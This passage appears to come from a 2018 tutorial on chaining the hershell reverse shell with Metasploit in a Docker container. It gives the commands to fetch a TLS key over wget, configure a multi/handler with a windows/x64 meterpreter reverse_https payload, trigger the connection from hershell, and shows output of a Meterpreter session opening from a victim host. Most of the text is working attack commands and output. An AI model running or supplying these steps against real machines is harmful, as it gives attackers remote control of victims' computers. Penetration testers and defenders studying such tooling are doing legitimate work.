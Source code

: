 Once the container is up and running, you'll land in a bash shell.  
You'll find all the classic `msf` framework tools.

![msf](https://github.com/khast3x/khast3x.github.io/blob/master/assets/demo/hershell_msf_binaries.png?raw=true)
We'll launch the `msfconsole` and let it load. Once you're greeted with the prompt, we'll need to retrieve our `server.key`.

We can use `wget` from inside the `msfconsole` and fetch them from our previously mentioned `serve` http page.

```
msfconsole
msf5 > wget http://DOCKER-IP:8000/server.key

```

Next, we're preparing our handler. I'll be using the `reverse_https` method.

```bash
msf5 > use exploit/multi/handler
msf5 > set payload windows/x64/meterpreter/reverse_https
msf5 > set lhost DOCKER-IP
msf5 > set lport 8443
msf5 > set HandlerSSLCert ./server.pem
msf5 > exploit -j

```

In your hershell console, simply type:

```bash
[hershell]> meterpreter https YOUR-DOCKER-IP:8443
```

And hopefully, you'll be seeing this in your `msfconsole`

```bash
[*] Started HTTPS reverse handler on https://0.0.0.0:8443
cleear
[*] https://DOCKER-IP:8443 handling request from VICTIM-IP; (UUID: q4jynvuf) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (DOCKER-IP:8443 -> VICTIM-IP:40238) at 2018-10-04 02:09:35 +0000

```
